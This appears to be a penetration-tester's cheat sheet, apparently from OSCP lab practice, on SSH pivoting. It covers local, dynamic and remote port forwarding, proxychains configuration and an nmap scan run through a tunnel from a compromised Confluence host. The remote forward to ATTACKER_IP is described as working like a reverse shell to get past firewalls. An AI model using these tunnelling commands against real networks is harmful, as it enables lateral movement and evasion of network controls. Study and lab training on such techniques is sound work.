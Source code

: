 
## Global note: make sure a full TTY is enabled before using `OpenSSH`.
### Local port forwarding

``` 
ssh -N -L 0.0.0.0:4455:172.16.217.217:445 database_admin@10.4.217.215           // on 192.168.217.63
// Open port 4455 on 192.168.217.63, sending the packets through 172.16.217.217 to 10.4.217.215:445.
```
`-N`: spawn no shell, give no output.



### Dynamic port forwarding
When dynamic port forwarding, all ports on the target machine are forwarded. To achieve this, a SOCKS5 proxy to a specific IP is used:

```
ssh -N -D 0.0.0.0:9999 USERNAME@HIDDEN_MACHINE           // Run from the remote machine
// change "socks5 127.0.0.1 1080" to "socks5 REMOTE_IP 9999" in /etc/proxychains.conf locally
proxychains nmap -n -sT --top-port=10 HIDDEN_MACHINE_REACHABLE_IP        // make sure to use '-n' and '-sT'
```
Note: make sure to use `proxychains` before every network command.
###### Example output
```
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -D 0.0.0.0:9999 database_admin@10.4.217.215
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '10.4.217.215 (10.4.217.215)' can't be established.
ECDSA key fingerprint is SHA256:GMUxFQSTWYtQRwUc9UvG2+8toeDPtRv3sjPyMfmrOH4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
database_admin@10.4.217.215's password: 


┌─[root@edu-virtualbox]─[/tmp/oscp]
└──╼ #tail /etc/proxychains.conf 
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks5 127.0.0.1 5000
#socks5  127.0.0.1 1080
socks5  192.168.217.63 9999
// sets the target machine (running the port forwarder) and IP.

┌─[✗]─[root@edu-virtualbox]─[/tmp/oscp]
└──╼ #proxychains nmap -sT -n --top-port=10 -Pn 172.16.217.217
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.94 ( https://nmap.org ) at 2024-05-06 00:57 CEST
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Host is up (10s latency).

PORT     STATE  SERVICE
21/tcp   closed ftp
22/tcp   closed ssh
23/tcp   closed telnet
25/tcp   closed smtp
80/tcp   closed http
110/tcp  closed pop3
139/tcp  open   netbios-ssn
443/tcp  closed https
445/tcp  open   microsoft-ds
3389/tcp open   ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 105.67 seconds


```



### Remote port forwarding
When there is a firewall involved, nearly any inbound connections can be blocked. Usually, outbound connections are allowed though.
Remote port forwards work nearly the same as Local port forwards, but the SSH connection has the remote host as the "sender", while taking the attacking machine as the "reciever". This way, the traffic will be marked as outbound to the firewall.
This system works very similarly to a reverse shell, and is usually implemented when the attacker found credentials for a hidden host, but cannot connect to it because of the firewall.

```
ssh -N -R 127.0.0.1:ATTACKER_LOCAL_PORT:HIDDEN_TARGET_IP:HIDDEN_TARGET_PORT ATTACKER_USERNAME@ATTACKER_IP
```

Note: make sure the local SSH server is open and `PasswordAuthentication` is set to `yes` in `/etc/ssh/sshd_config`, and `OpenSSH` is started using `systemctl start ssh` or `systemctl restart ssh`.


```
ssh -N -R 127.0.0.1:5555:10.4.171.215:4444 edu@192.168.45.194
// Opens port 5555 locally on the attacking machine, connecting to 10.4.171.215:4444
```


### Dynamic remote port forwarding
```
ssh -N -D 0.0.0.0:LOCAL_PORT ATTACKER_USER@ATTACKER_IP           // Run from the remote machine
// change "socks5 REMOTE_IP PORT" to "socks5 LCOAL_IP LOCAL_PORT" in /etc/proxychains.conf locally
proxychains nmap -n -sT --top-port=10 HIDDEN_MACHINE_REACHABLE_IP        // make sure to use '-n' and '-sT'

ssh -N -R 1080 kali@192.168.118.4
```